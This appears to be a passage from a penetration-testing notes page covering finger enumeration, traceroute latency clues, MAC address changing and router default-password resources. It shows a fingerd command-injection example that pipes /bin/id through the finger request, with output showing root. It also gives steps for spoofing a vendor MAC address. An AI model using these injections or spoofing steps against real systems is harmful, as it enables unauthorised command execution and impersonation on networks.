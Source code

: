 ```sh
Directory: /home/test                   Shell: /bin/sh

Never logged in.

No mail.

No Plan.
```

Poorly written fingerd implementations allow attackers to pipe commands through the service, which are, in turn, run on the target host by the owner of the service process (such as root or bin under Unix-based systems).

```sh
# finger "|/bin/id@192.168.0.135"

[192.168.0.135]

uid=0(root) gid=0(root)
```

## Enumerating with Traceroute

Latency jumps in Traceroute values can identify geographic data:

```sh
1 ms – within your LAN
25 ms – my home cable service in London to servers located in mainland UK
90 ms – typical home DSL in the US to google.com
100-150 ms – the transatlantic cable between the UK and New York state
600-2000 ms – typical VSAT remote to hub link
```

```source: https://www.tolaris.com/2008/10/09/identifying-undersea-fibre-and-satellite-links-with-traceroute/```

## Changing MAC Addresses

Look up vendor MAC you want to impersonate: <https://mac2vendor.com/>

Change MAC:

```sh
sudo ifconfig <interface-name> down
sudo ifconfig <interface-name> hw ether <new-mac-address> 
sudo ifconfig <interface-name> up
```

# Routers

Resources:

```
 https://www.routerpasswords.com
```
